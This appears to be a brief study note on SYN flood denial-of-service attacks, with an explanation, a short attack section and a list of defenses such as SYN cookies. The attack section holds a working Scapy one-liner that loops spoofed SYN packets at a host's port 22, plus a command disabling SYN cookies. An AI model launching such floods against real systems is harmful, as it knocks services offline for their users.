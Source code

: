 # SYN Flood Attack
A SYN flood attack is a form of denial-of-service attack in which an attacker rapidly initiates a connection to a server without finalizing the connection. 

The malicious client can either simply not send the expected `ACK`, or by spoofing the source IP address in the `SYN`, cause the server to send the `SYN-ACK` to a falsified IP address – which will not send an `ACK` because it "knows" that it never sent a `SYN`.[^wiki]

## Attack
1. Nmap 扫描可连接端口
2. `echo 0 > /proc/sys/net/ipv4/tcp_syncookies`
3. Scapy
   ```python
   send(IP(src=RandIP(), dst='10.0.0.8') / TCP(sport=RandShort(), dport=22, flags='S'), loop=1)
   ```

## Defenses
 [^linoxide]
- Filtering
- Increasing backlog
  ```sh
  cat /proc/sys/net/ipv4/tcp_max_syn_backlog
  ```
- Reducing SYN-RECEIVED timer
  ```sh
  cat /proc/sys/net/ipv4/tcp_synack_retries
  ```
- Recycling the oldest [half-open TCP](https://en.wikipedia.org/wiki/TCP_half-open "TCP half-open")
- SYN cache
- [SYN cookies](https://en.wikipedia.org/wiki/SYN_cookies)
  
  Instead of storing additional connections, a SYN queue entry is encoded into the **sequence number** sent in the `SYN-ACK` response. If the server then receives a subsequent `ACK` response from the client with the incremented sequence number, the server is able to reconstruct the SYN queue entry and proceed as usual with the connection.

  SYN cookies are now deployed in most major operating systems.
  
  ```sh
  cat /proc/sys/net/ipv4/tcp_syncookies
  ```
- Hybrid approaches
- Firewalls and proxies


[^wiki]: [SYN flood - Wikipedia](https://en.wikipedia.org/wiki/SYN_flood)
[^linoxide]: [What is SYN Flood Attack? Detection & Prevention in Linux](https://linoxide.com/snapshot-syn-flood-attack/)
